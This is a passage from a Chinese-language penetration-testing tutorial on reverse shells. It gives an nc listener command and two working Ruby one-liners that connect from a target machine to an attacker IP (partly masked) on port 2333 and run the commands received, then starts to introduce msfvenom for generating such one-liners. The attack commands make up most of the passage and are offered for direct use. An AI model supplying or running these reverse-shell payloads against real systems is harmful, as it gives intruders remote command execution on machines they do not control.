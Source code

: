 执行效果如下：

![image-20210505233634859](images/image-20210505233634859.png)

### Ruby脚本反弹shell

当目标主机上有ruby环境时，我们可以用ruby来反弹shell。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
ruby -rsocket -e 'c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
或
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

执行效果如下：



## 使用Metasploit生成反弹shell用的一句话

强大的Metasploit框架也为我们提供了生成一句话反弹shell的工具，即msfvenom，绝对的实用。当我们不记得前面说的所有反弹shell的反弹语句时，只要我们有Metasploit，那么我们随时都可以使用 `msfvenom -l` 来查询生成我们所需要的各类命令行一句话，具体使用方法如下。
